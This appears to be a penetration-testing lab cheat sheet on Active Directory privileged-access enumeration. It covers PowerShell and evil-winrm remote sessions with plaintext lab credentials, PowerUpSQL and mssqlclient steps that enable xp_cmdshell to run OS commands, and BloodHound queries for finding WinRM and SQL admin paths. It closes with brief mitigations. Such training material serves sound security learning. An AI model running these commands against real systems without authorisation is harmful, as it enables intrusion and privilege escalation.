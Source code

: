 # Privileged Access Enumeration and Exploitation

## Windows (PowerShell)

### Enumerate RDP and WinRM Users:

```powershell
Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Desktop Users"
Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Management Users"
```

### Establish a Secure WinRM Session:

```powershell
$password = ConvertTo-SecureString "Klmcargo2" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential ("INLANEFREIGHT\forend", $password)
Enter-PSSession -ComputerName ACADEMY-EA-MS01 -Credential $cred
```

To exit the session:

```powershell
Exit-PSSession
```

### PowerUpSQL for SQL Server Enumeration:

```powershell
cd .\PowerUpSQL\  # Navigate to PowerUpSQL directory
Import-Module .\PowerUpSQL.ps1  # Import PowerUpSQL module
Get-SQLInstanceDomain  # Enumerate SQL instances
```

### Execute SQL Query:

```powershell
Get-SQLQuery -Verbose -Instance "172.16.5.150,1433" -Username "inlanefreight\damundsen" -Password "SQL1234!" -Query 'SELECT @@version'
```

---

## Linux-Based Enumeration

### Install and Use Evil-WinRM:

```bash
gem install evil-winrm  # Install evil-winrm
evil-winrm -i 10.129.201.234 -u forend  # Establish WinRM session
```

### MSSQLClient for SQL Enumeration:

```bash
mssqlclient.py INLANEFREIGHT/DAMUNDSEN@172.16.5.150 -windows-auth  # Connect to MSSQL
help  # Display help within MSSQL client
enable_xp_cmdshell  # Enable xp_cmdshell
xp_cmdshell whoami /priv  # Run OS command
```

---

## BloodHound (Cypher Queries)

### Find WinRM Access:

```cypher
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group))
MATCH p2=(u1)-[:CanPSRemote*1..]->(c:Computer)
RETURN p2
```

### Find SQL Admin Access:

```cypher
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group))
MATCH p2=(u1)-[:SQLAdmin*1..]->(c:Computer)
RETURN p2
```

---

## Best Practices & Mitigations

1. **Restrict Privileged Access**: Limit RDP and WinRM access to necessary personnel.
2. **Monitor Privileged Actions**: Enable auditing for RDP logins and PowerShell execution logs.
3. **SQL Security**: Disable xp_cmdshell and enforce strong authentication mechanisms.
4. **Least Privilege Principle**: Regularly audit and limit high-privilege group memberships.
5. **Use MFA and Network Segmentation**: Add extra security layers to critical services.

By implementing these best practices, organizations can significantly reduce the risk of privilege escalation attacks.